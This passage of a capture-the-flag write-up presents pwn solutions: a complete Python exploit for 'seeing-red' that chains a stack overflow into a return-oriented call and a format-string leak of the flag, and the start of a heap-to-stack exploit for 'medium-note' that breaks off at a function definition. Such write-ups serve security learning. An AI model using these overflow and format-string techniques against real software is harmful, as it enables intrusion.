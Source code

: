 The results are as follows:

![[static/b01lers-wp-fig6.png]]

---
### seeing-red

There are two vulnerabilities: first, use a stack overflow to call `use_ticket` to load the flag onto the stack (note that the stack alignment needs to be adjusted using `ret`), and then use a format string to print the flag.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
# set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

ru(b"Do you know where it could be?! \n")
sl(b"a" * 0x48 + p64(0x000000000040139D) + p64(0x401216) + p64(0x40131F))

ru(b"sooo... anyways whats your favorite Taylor Swift song? ")
sl(b"%p%p%p%p%s")

ia()
```

The results are as follows:

![[static/b01lers-wp-fig7.png]]

---
### medium-note

From heap to stack:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc("./libc-2.36.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc


def cmd(choice):
```